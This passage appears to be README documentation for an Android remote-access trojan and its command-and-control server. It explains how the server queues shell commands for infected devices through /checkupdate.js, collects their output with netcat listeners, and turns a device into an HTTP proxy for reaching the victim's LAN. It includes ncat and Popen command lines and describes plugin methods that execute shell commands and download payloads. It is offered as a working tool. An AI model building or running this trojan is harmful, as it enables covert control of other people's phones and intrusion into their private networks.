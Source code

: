 `runCMD` is a method of `genShell` that write the shell script we want the trojan to run into a file inside `/assets` to be downloaded later by the client, then uses netcat to listen for the response and pipe it into a file inside `/threads`

**Example**: Let say you want to use the target as a HTTP proxy, the API formulate the request as the following cmd:

```shell
echo -e "GET / HTTP/1.1\r\nHost: 192.168.1.1\r\nConnection: close\r\n\r\n" | {abspath_toolbox/ncat} {API_HOST_IP} {lport} -w 10;\r\n
```
then save it into `assets/runsh_{uid_task}.sh`, then depending whether the request came from StealthMode/BatteryBypass or not, `/checkupdate.js` gets the trojan to download the shell file and run it.
	
```python
>>> Popen("exec $(nc -l 0.0.0.0 -p {lport} -dN > {task_filename})" shell=True, close_fds=True, ...)
```


+ __[GET]__ /addtask

Using the appropriate token the admin can get a device to run a command via this endpoint, the server will describe this command as __pending__ which will impact the next response of `/checkupdate.js` to that device. Then it'll return a random generated id for this task.


+ __[GET]__ /pingtask

The combination of the task id generated by `/addtask` and the aforementioned thread id `threaduid` makes the name of the file inside `/threads` where the output of the command is saved. Once this endpoint is requested it checks whether `/threads/{threaduid}x{taskid}` exists, if so the server returns the content of the file otherwise it return 0.


+ __[GET]__ /runproxy & /pushproxy

This will run `reverse_http.py` in a separate screen, then returns a IP:PORT (HTTP proxy), that will allow the admin to pivote HTTP requests through the trojan device. For instance, if the Admin sets these info in the browser settings and try to open router port (Ex: `http://192.16...`), the browser will open the router web interface as if the admin was a part the target LAN.




2. [Client/Trojan (__Android__)](https://github.com/BenChaliah/Arbitrium-Android): The app is build using Cordova for its simplicity and support for cross-platform developpement. This app relays of two main parts


	1. ##### __netbolt-orange-plugin__: 

		this is a cordova plugin I made, it contains few functions that we can call from `index.html`, scripts downloaded via `/checkupdate.js` mainly use these methods to run the assigned task

		    + __exec()__ : execute shell cmd then returns the cmd output, it runs on the __UI thread__

		    + __poolexec()__ : same as 'exec()', but this one uses the `ThreadPoolExecutor` so the App can run a cmd without blocking the main thread, when the output is ready, it sent via a callback with the exit status

		    + __download()__ : this one is for downloading whatever resources the API or the admin may want or need to execute a task
